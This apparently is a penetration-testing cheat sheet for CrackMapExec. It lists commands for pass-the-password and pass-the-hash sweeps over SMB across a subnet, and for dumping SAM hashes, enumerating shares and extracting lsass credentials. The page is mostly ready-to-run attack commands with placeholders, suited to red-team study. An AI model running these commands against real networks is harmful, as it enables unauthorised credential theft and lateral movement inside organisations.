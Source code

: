 *Crackmapexec* stores results and loot in a database.
Connect to the CME database:
```bash
cmedb
```

---
# Pass-the-password attack

Sweep the whole domain and try to login to SMB services with known credentials:
```bash
crackmapexec smb 10.0.0.0/24 -d <AD-domain> -u <user> -p <password>
```
If the AD-user is a local administrator we can also use the following arguments:
`--sam`: dump SAM hashes from target systems
`-M lsassy`: module lsassy to dump lsass creds

# Pass-the-hash attack

Use local (not domain) NTLM-hash:
```bash
crackmapexec smb 10.0.0.0/24 -u <user> -H <NTLM-hash> --local-auth
```
Args:
`-H`: NTLM hash
`--local-auth`: authenticate locally


**Dump SAM database:**
```bash
crackmapexec smb 10.0.0.0/24 -u <user> -H <NTLM-hash> --local-auth --sam
```
Args:
`--sam`: dump SAM hashes from target systems


**Enumerate shares:**
```bash
crackmapexec smb 10.0.0.0/24 -u <user> -H <NTLM-hash> --local-auth --shares
```
Args:
`--shares`: enumerate shares and access


**Dump lsass credentials:**
Requires credentials of an administrative user.
```bash
crackmapexec smb 10.0.0.0/24 -u <user> -H <NTLM-hash> --local-auth -M lsassy
```
